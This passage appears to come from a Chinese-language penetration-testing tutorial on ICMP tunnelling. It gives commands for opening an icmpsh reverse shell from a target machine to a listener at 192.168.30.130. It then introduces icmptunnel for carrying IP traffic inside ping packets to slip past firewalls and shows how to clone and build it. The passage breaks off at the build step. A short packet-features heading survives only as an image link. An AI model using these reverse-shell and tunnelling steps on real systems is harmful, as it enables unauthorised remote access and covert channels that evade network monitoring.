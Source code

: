 1）Server

禁用 ICMP

> sysctl -wnet.ipv4.icmp_echo_ignore_all=1

[![](https://p0.ssl.qhimg.com/t01597e5a7bf8d476ae.png)](https://p0.ssl.qhimg.com/t01597e5a7bf8d476ae.png)

设置监听 python icmpsh_m.pysrc(host：本地机器) dst(host：目标机器)

> ./icmpsh_m.py 192.168.30.130 192.168.30.134

[![](https://p5.ssl.qhimg.com/t019922227556cc3c0e.png)](https://p5.ssl.qhimg.com/t019922227556cc3c0e.png)

反弹上线

[![](https://p2.ssl.qhimg.com/t014d74fbeabd22e99f.png)](https://p2.ssl.qhimg.com/t014d74fbeabd22e99f.png)

2) Client  
反弹 shell 建立 session

> icmpsh.exe -t 192.168.30.130

[![](https://p1.ssl.qhimg.com/t0170e1170dfd0d8381.png)](https://p1.ssl.qhimg.com/t0170e1170dfd0d8381.png)

-r 参数 利用 test 账户进行测试

> icmpsh.exe -t 192.168.30.130 -r

[![](https://p5.ssl.qhimg.com/t0125f80418f32b9d28.png)](https://p5.ssl.qhimg.com/t0125f80418f32b9d28.png)

3）数据包特征

[![](https://p2.ssl.qhimg.com/t01be9fcd118a7ff938.png)](https://p2.ssl.qhimg.com/t01be9fcd118a7ff938.png)

4) Icmpsh –r 参数

[![](https://p2.ssl.qhimg.com/t018ba1bafcc8c3cfe1.png)](https://p2.ssl.qhimg.com/t018ba1bafcc8c3cfe1.png)

**icmptunnel**

icmptunnel 可以将 IP 流量封装进 IMCP 的 ping 数据包中，旨在利用 ping 穿透防火墙的检测。

对于隧道数据，icmptunnel 首先会指定客户端和服务器端。随后，客户端会将 IP 帧封装在 ICMP 请求数据包中发送给服务器，而服务器端则会使用相匹配的 ICMP 响应数据包进行回复（icmptunnel 提供在状态机防火墙和 NAT 网络之间，更加可靠的连接）。

> [https://github.com/jamesbarlow/icmptunnel.git](https://github.com/jamesbarlow/icmptunnel.git)

一、编译

```
$ git clone https://github.com/jamesbarlow/icmptunnel.git  
$ cd icmptunnel/ 
$ make
```
